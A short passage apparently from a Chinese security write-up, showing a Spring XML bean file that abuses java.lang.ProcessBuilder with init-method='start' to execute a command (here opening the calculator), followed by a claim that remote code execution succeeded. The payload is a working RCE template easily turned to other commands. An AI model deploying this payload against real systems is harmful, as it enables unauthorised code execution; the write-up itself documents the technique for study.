 ```plain
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>open</value>
                <value>-a</value>
                <value>calculator</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

最后成功 RCE

[![](assets/1698893277-784816bd72c8c1c251a9dca5e3b4c0f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026172608-b208aeba-73e1-1.png)
